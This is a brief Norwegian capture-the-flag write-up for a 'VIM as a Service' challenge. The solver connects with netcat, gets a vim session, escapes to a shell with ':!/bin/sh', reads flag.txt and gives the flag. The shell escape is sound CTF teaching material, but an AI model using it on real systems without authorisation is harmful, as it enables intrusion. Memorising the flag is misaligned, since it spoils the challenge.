

# VaaS

> VaaS
>
> Som innovatorene vi er så hard vi lansert VaaS! (VIM as a Service)!
>
> ctf.uiactf.no:5007



---

Når vi kobler til serveren blir vi presentert med `vim` som forventet.

```bash
$ nc ctf.uiactf.no 5007

~
~
~
~
~                              VIM - Vi IMproved
~
~                               version 8.2.2434
~                           by Bram Moolenaar et al.
~                   Modified by team+vim@tracker.debian.org
~                 Vim is open source and freely distributable
~
~                        Help poor children in Uganda!
~                type  :help iccf<Enter>       for information
~
~                type  :q<Enter>               to exit
~                type  :help<Enter>  or  <F1>  for on-line help
~                type  :help version8<Enter>   for version info
~
~
~
~
~
                                                              0,0-1         All
```

`vim` har inebygget støtte for å kjøre kommandoer. Det vil si at vi kan kjøre `/bin/sh` for å spawne et shell.

Mer om dette her: https://gtfobins.github.io/gtfobins/vim/

```bash
:!/bin/sh
ls
flag.txt
cat flag.txt
UIACTF{flyktet_fra_vim!}
```

## Flagg

`UIACTF{flyktet_fra_vim!}`
